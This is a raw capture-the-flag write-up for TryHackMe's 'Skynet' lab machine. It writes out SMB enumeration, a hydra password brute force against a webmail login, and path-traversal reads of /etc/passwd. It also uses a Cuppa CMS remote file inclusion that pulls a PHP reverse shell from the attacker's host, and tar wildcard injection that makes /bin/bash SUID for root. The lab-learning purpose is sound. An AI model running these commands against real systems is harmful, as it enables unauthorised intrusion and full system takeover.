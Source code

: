 [<- home](/)

# Skynet [TryHackMe]

<sub>_This is a raw write-up. It accounts for every step taken throughout the challenge, whether or not it was successful. So, expect a lot of rabbitholes and frustration. At the time of writing this, I don't even know if I've solved the challenge myself. You might see a flag somewhere titled **<sup>Assisted by [write-up link]</sup>** which means I used someone else's write-up to complete the challenge. Being a responsible learner, I'm trying my best to accept as little help as possible and only when I'm out of ideas._</sub> 

## _Manual Exploitation_

Let's define the `targ3t` variable to reuse later:

```
targ3t=10.10.177.77
```

Let's perform an `nmap` scan and check for open ports:

```
nmap -A -Pn $targ3t -oN nmap.scan
```

We have six open ports `445`, `110`, `80`, `143`, `139`, `22`. 

Let's start enumerating the first one:

```
nmap --script=smb* -p 445 $targ3t -oN nmap.445.scan
```

It appears that Anonymous login to this share is permitted.

```
smbclient '//$targ3t/Anonymous'
```

Let's see what files we have:

```
smb: \> ls
```

There's an `attention.txt` file and a `logs` directory.

```
get attention.txt
```

It says the following:

```
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

In the `logs` directory we have three files:
- `log1.txt`
- `log2.txt`
- `log3.txt`

We will get them all and see what they have:

`log1.txt`:
```
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
...
```

Appears to be a wordlist. The other two are empty. Let's check other ports for vulnerabilities for now. From our initial `nmap.scan` we can see that there is an http port `80`, let's see what's on there:

```
firefox $targ3t
```

Appears to be a search engine. Let's put it through `gobuster`:

```
gobuster dir -u http://$targ3t -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.scan
```

There's a path `/squirrellmail` for email login interface and there's a user named `milesdyson` we know from our `nmap.445.scan`. Let's try to brute force it with hydra:

```
hydra -l milesdyson -P log1.txt $targ3t http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=incorrect" -vV
```

This reveals the password to be `cyborg007haloterminator`. The very first email reveals the samba password for this user:

```
smbclient '//10.10.177.77/milesdyson' -U milesdyson
```

There is a `notes` directory and inside there is `important.txt` file which reveals a path on this website:

```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

This path has a static page on it. Let's put it through `feroxbuster`:

```
feroxbuster -u http://$targ3t/45kra24zxs28v3yd -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o ferox.scan
```

There's a path named `/administrator`. It's supposed to be a Cuppa CMS login interface.

```
searchsploit Cuppa
```

There is one:

```
cp /usr/share/exploitdb/exploits/php/webapps/25971.txt .
```

This details steps for remote file inclusion. 

Let's use one of the examples inside the exploit to test:

```
http://10.10.177.77/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

It prints the `/etc/passwd` file from the server like a charm. Let's get the user flag:

```
http://10.10.177.77/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../home/milesdyson/user.txt
```

We can't get root flag the same way, probably for the lack of privileges, but we can have it include reverse shell on the server. First let's start a server with `reverse.php` already on it:

```
python -m http.server 8080
```

And start a netcat listener:

```
nc -lvnp 9876
```

And request the following url:

```
http://10.10.177.77/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.100.243:8080/reverse.php
```

We got the shell! 

```
whoami
```

Apparently we are `www-data`. Let's try to become root:

```
cat /etc/crontab
```

There's a root owned file `/home/milesdyson/backups/backup.sh` running on crontab.

```
cat /home/milesdyson/backups/backup.sh
```

It is using `tar cf /home/milesdyson/backups/backup.tgz *` to compress `var/www/html`. We can exploit this with that wildcard. Let's go to the directory where the script is going and do the following:

```
cd /var/www/html
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh privesc.sh'
```

And then create the `privesc.sh` script in the same directory:

```
printf "#!/bin/bash\nchmod +s /bin/bash" > privesc.sh
```

After a minute, let's execute:

```
/bin/bash -p
```

We have a root shell.

```
cat /root/root.txt
```

And a root flag!
